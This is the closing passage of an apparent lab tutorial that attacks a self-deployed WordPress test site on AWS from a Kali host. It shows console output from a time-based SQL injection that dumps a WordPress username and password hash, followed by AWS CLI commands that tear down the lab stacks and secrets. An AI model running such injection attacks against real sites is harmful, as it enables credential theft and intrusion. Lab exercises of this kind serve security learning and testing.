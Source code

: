 ```console
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 wordpress   $P$B8OjOUCRrPXm/TrVQ2/WJqUp5w7WmI.

[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed

resource (stdin)> exit -y
```

From the outputs above, you can see the attack against WordPress was
successful. We obtained details about the remote system, such as a list of
processes, the `wp-config.php` file, system details, and a list of users with
their password hashes.

## Cleanup

Delete the Amazon EKS cluster, EC2 instances, VPCs, EC2 Key Pair, DB snapshots,
SSM parameters, and CloudWatch Log Groups:

```sh
export AWS_REGION="eu-central-1"
export AWS_EC2_KEY_PAIR_NAME="wordpress-test"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export SOLUTION_EC2_CONTAINER="Amazon-EC2-Container"
export SOLUTION_EC2="Amazon-EC2"

aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}"
aws cloudformation delete-stack --stack-name "${SOLUTION_EC2_CONTAINER}"
aws cloudformation delete-stack --stack-name "${SOLUTION_EC2}"
aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}-VPC"
aws cloudformation delete-stack --stack-name "${SOLUTION_EC2_CONTAINER}-VPC"
aws cloudformation delete-stack --stack-name "${SOLUTION_EC2}-VPC"
aws ec2 delete-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}"
for FILE in ${TMP_DIR}/{vpc_cloudformation_template.yml,KaliLinux-NICE-DCV.yaml,UbuntuLinux-2204-LAMP-server.yaml,AmazonLinux-2023-LAMP-server.yaml,${AWS_EC2_KEY_PAIR_NAME}.pem,wordpress_plugin_install.sh,Dockerfile,startup.sh}; do
  if [[ -f "${FILE}" ]]; then
    rm -v "${FILE}"
  else
    echo "*** File not found: ${FILE}"
  fi
done
if copilot app ls | grep wordpress; then
  copilot app delete --name wordpress --yes
  if [[ -d "${TMP_DIR}/copilot" ]]; then
    rm -rf "${TMP_DIR}/copilot"
  fi
fi
if aws ssm get-parameter --name /copilot/wordpress/dev/secrets/WORDPRESS_USERNAME; then
  aws ssm delete-parameter --name /copilot/wordpress/dev/secrets/WORDPRESS_USERNAME
fi
if aws ssm get-parameter --name /copilot/wordpress/dev/secrets/WORDPRESS_PASSWORD; then
  aws ssm delete-parameter --name /copilot/wordpress/dev/secrets/WORDPRESS_PASSWORD
fi
aws logs describe-log-groups --log-group-name-prefix /aws/lambda/wordpress-dev-wordpress --query 'logGroups[*].logGroupName' | jq -r '.[]' | xargs -I {} aws logs delete-log-group --log-group-name {}
```